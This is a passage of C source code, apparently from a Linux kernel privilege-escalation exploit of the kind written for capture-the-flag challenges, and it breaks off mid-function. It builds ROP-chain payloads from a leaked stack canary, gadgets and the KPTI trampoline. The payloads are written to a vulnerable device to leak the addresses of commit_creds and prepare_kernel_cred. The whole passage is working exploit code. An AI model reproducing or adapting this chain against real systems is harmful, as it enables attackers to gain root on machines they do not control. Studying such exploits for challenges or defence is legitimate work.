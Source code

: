 ```c

void _get_prepare_kernel_cred ()
{
	__asm__(
		".intel_syntax noprefix;"
		"mov tmp, rax;"
		".att_syntax;"
	);

	prepare_kernel_cred = ksymtab_prepare_kernel_cred + (int) tmp;
	printf("[DEBUG] prepare_kernel_cred address is : 0x%lx\n, tmp is 0x%lx", prepare_kernel_cred, tmp);

	run_prepare_kernel_cred ();
}

void get_prepare_kernel_cred ()
{
	unsigned long payload[PLEN] = {'\x00'};
	payload[16] = canary;
	payload[20] = pop_rax_ret; //return address
	payload[21] = ksymtab_prepare_kernel_cred - 0x10;
	payload[22] = read_rax_pop_rbp_ret;
	payload[23] = 0; //faked rbp
	payload[24] = kpti_trampoline;
	payload[25] = 0;
	payload[26] = 0;
	payload[27] = (unsigned long)_get_prepare_kernel_cred; //IP, userspace function to get commit_creds() from eax
	payload[28] = us_cs;
	payload[29] = us_rflags;
	payload[30] = us_rsp;
	payload[31] = us_ss;

	printf ("[DEBUG] try to get address of prepare_kernel_cred()\n");
	write (g_fd, payload, sizeof (payload));
}

void _get_commit_creds ()
{
	__asm__(
		".intel_syntax noprefix;"
		"mov tmp, rax;"
		".att_syntax;"
	);

	commit_creds = ksymtab_commit_creds + (int) tmp;
	printf("[DEBUG] commit_creds() address is : 0x%lx, tmp is:%lx\n", commit_creds, tmp);

	get_prepare_kernel_cred ();
}

void get_commit_creds ()
{
	unsigned long payload[PLEN] = {'\x00'};
	payload[16] = canary;
	payload[20] = pop_rax_ret; //return address, pop rax; ret
	payload[21] = ksymtab_commit_creds - 0x10;	//rax = ksymtab_commit_creds - 0x10
	payload[22] = read_rax_pop_rbp_ret; // mov eax, dword ptr[rax + 0x10]; pop rbp; ret;
	payload[23] = 0; //faked rbp
	payload[24] = kpti_trampoline;
	payload[25] = 0;
	payload[26] = 0;
```